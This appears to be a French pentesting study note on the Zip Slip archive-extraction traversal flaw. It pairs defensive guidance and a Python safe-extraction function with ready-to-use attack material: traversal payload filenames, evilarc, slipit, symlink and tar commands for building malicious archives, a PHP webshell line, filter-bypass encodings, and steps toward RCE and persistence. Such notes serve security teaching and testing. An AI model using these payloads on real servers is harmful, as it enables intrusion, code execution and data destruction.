

# 🗜️ Zip Slip — Zip Traversal

> [!info] **En 1 phrase**
> Zip Slip = extraire une archive contenant des noms de fichiers **traversants** (`../../`)
> pour écrire des fichiers **hors du dossier d'extraction** → écrasement de fichiers, webshell, **RCE**.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)** + [Snyk Research](https://snyk.io/research/zip-slip-vulnerability)

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le code d'extraction concatène simplement **nom d'entrée + dossier de destination**
> (`os.path.join(dest, entry_name)`) sans **normaliser/valider le chemin résultant**.
> `../../../../etc/passwd` remonte l'arborescence et écrit où l'utilisateur de l'app a les droits.

---

## ⚙️ Le mécanisme

- Une archive ZIP (ou TAR, JAR, WAR, CPIO, APK, RAR, 7z…) contient des entrées dont les noms
  contiennent des séquences de **traversal** : `../`, `..\`, chemins absolus.
- Un extracteur naïf décompresse dans le dossier de destination **sans vérifier** que le chemin
  final reste bien dedans.
- Résultat : écriture de fichiers à des emplacements **arbitraires** sur le serveur
  (selon les droits de l'utilisateur qui exécute l'extraction).

```text
malicious.zip
  ├── ../../../../etc/cron.d/shell           → écrit dans /etc/cron.d/shell
  ├── ../../../../tmp/pwn.php                → écrit dans /tmp/pwn.php
  └── normal.txt                             → écrit normalement dans le dossier cible
```

> [!warning] ⚠️ **Prérequis** : un point d'**upload d'archive** + une fonctionnalité qui **décompresse**
> côté serveur (import ZIP, extraction d'images, mise à jour de thèmes/plugins, upload de backups…).

---

## 🚀 Payloads

### Noms de fichiers traversants

```text
../../../../../../etc/cron.d/pwn                    # cron → exécution
../../../../../../var/www/html/shell.php            # webshell
../../../../../../usr/local/bin/malicious_script.sh # binaire/script du système
../../../www/index.php                              # écrasement d'une page
C:\Windows\System32\evil.dll                        # chemin absolu Windows
..\..\..\..\inetpub\wwwroot\shell.aspx              # Windows
```

### Créer une archive malveillante — evilarc

```bash
# outil : https://github.com/ptoomey3/evilarc
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
# → crée shell.zip avec des entrées ../../../../../var/www/html/shell.php
```

### Créer une archive malveillante — slipit

```bash
# outil : https://github.com/usdAG/slipit
slipit -p "../" -n 5 -f /var/www/html/shell.php -o shell.zip
```

### Symlink dans l'archive (variante ZIP symlink)

```bash
# Créer un lien symbolique qui pointe hors du dossier d'extraction
ln -s ../../../index.php symlink.txt
zip --symlinks test.zip symlink.txt
# → si l'extracteur ne résout pas les symlinks, le contenu écrit cible le fichier réel
```

### TAR (même principe)

```bash
# Avec tar, la préparation est directe :
tar -cf pwn.tar ../../../../tmp/shell.php    # chemin relatif remontant
# NB : de nombreux extracteurs (tar libs) sont aussi vulnérables
```

---

## 🎯 Exploitation

### 1. Webshell (objectif RCE)

```text
1. Générer une archive contenant ../../../../var/www/html/cmd.php avec le contenu PHP :
     <?php system($_GET['c']); ?>
2. Uploader + déclencher l'extraction (import, endpoint de décompression).
3. Accéder à http://target/cmd.php?c=id → RCE.
```

### 2. Écrasement de fichiers

```text
- Écraser un fichier .htaccess / web.config → nouvelle route ou exécution de PHP.
- Écraser une classe applicative (index.php, main.py) → code modifié au prochain chargement.
- Écraser une bibliothèque chargée → chargement de notre code (DLL hijacking-like).
- Cron (Linux) : écrire /etc/cron.d/… ou /var/spool/cron/ → exécution planifiée.
- ~/.ssh/authorized_keys → accès SSH persistant (si droits).
```

### 3. Déni de service / sabotage

```text
- Écraser un fichier de config critique (config.php, application.yml) → crash de l'app.
- Remplir le disque (très grande entrée) → No space left on device.
```

---

## 🧩 Variantes

| Variante | Détail |
|---|---|
| **TAR** | `tar`/`jar`/`war` utilisent le même mécanisme (noms `../` dans les headers) |
| **GZIP** | Un `.tar.gz` est un gzip contenant un tar → traversable de la même façon |
| **ZIP avec symlink** | L'extracteur suit un symlink interne → écriture via le lien |
| **Chemins absolus** | `/etc/passwd` en début de nom (au lieu de `../`) sur certaines implémentations |
| **Double slash / encodage** | `..//..//`, `%2e%2e%2f`, `..%5c` pour bypasser les filtres de chaîne `../` |
| **Unicode / UTF-8** | `..\u2216..\u2216` (fullwidth) selon la normalisation de l'extracteur |

> [!info] 💡 **Portée** : la vulnérabilité touche des **centaines de bibliothèques** dans tous les
> langages (Java, Node, Python, PHP, .NET, Ruby…). Liste de référence : [snyk/zip-slip-vulnerability](https://github.com/snyk/zip-slip-vulnerability).

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Validation des chemins** | Après `join(dest, name)`, vérifier que le chemin résolu commence bien par `dest` |
| **Normalisation** | `os.path.realpath()` / `Path.resolve()` puis comparaison avec le dossier autorisé |
| **Allowlist d'extensions** | Ne décompresser que les types attendus (images, fichiers texte…), pas de scripts |
| **Filtrage des noms** | Rejeter les entrées contenant `../`, `..\`, chemin absolu, `..` suivi d'un séparateur |
| **Pas de suivis de symlinks** | Refuser les entrées de type symlink (`isLink`) |
| **Limites de décompression** | Taille max, nombre d'entrées, ratio de compression (anti zip bomb) |
| **Droits faibles** | Exécuter l'extraction avec un compte **restreint**, dans un dossier non-web |
| **Bibliothèques à jour** | Utiliser des extracteurs patchés (SafeExtractor Java, yauzl/pakker Node, etc.) |

### Bon exemple (Python)

```python
import zipfile, os

def safe_extract(zip_path, dest):
    with zipfile.ZipFile(zip_path) as z:
        for name in z.namelist():
            target = os.path.realpath(os.path.join(dest, name))
            if not target.startswith(os.path.realpath(dest) + os.sep):
                raise Exception("Zip Slip détecté: " + name)
            if not os.path.islink(os.path.join(dest, name)) and not z.getinfo(name).is_dir():
                os.makedirs(os.path.dirname(target), exist_ok=True)
                with z.open(name) as src, open(target, "wb") as out:
                    out.write(src.read())
```

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Méthodo de test**
> - Chercher les **uploads d'archives** : `zip`, `tar`, `7z`, `rar`, import de plugins/thèmes,
>   batch d'images, sauvegardes, exports "restaurer".
> - Tester avec une entrée `../../` et vérifier l'**écriture** (timestamp, accès au fichier) ou via callback.
> - Privilégier l'écriture dans un dossier web (`shell.php`) pour un impact RCE démontrable.
> - Tester sur une **archive de test** : ne jamais écraser un vrai fichier système de la cible.

> [!warning] ⚠️ **Pièges**
> - Les **filtres naïfs** (`replace("../", "")`) se contournent : `....//`, `%2e%2e/`, `..//`.
> - `realpath`/`resolve` est **obligatoire** : `os.path.join` seul ne suffit pas (les `..` restent).
> - Windows : penser aux séparateurs `\`, aux **chemins absolus** (`C:\...`) et aux UNC (`\\server\`).
> - L'écrasement d'un fichier **chargé en mémoire** peut ne pas prendre effet immédiatement.
> - Un serveur peut **normaliser** les entrées ZIP → l'exploit dépend de la bibliothèque exacte utilisée.
> - Toujours vérifier que le dossier cible est **servi** par le web (sinon pas de webshell).

---

## 🔗 Liens

- [[Upload de fichiers|📤 Upload]]
- [[Path Traversal|🗂️ Path Traversal]]
- [[LFI et RFI|📂 LFI / RFI]]
- [[Injection de commandes|🐚 Injection de commandes]]
- [[Denial of Service|💥 DoS (Web)]] (zip bomb)
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [Snyk — Zip Slip](https://snyk.io/research/zip-slip-vulnerability) — [evilarc](https://github.com/ptoomey3/evilarc)
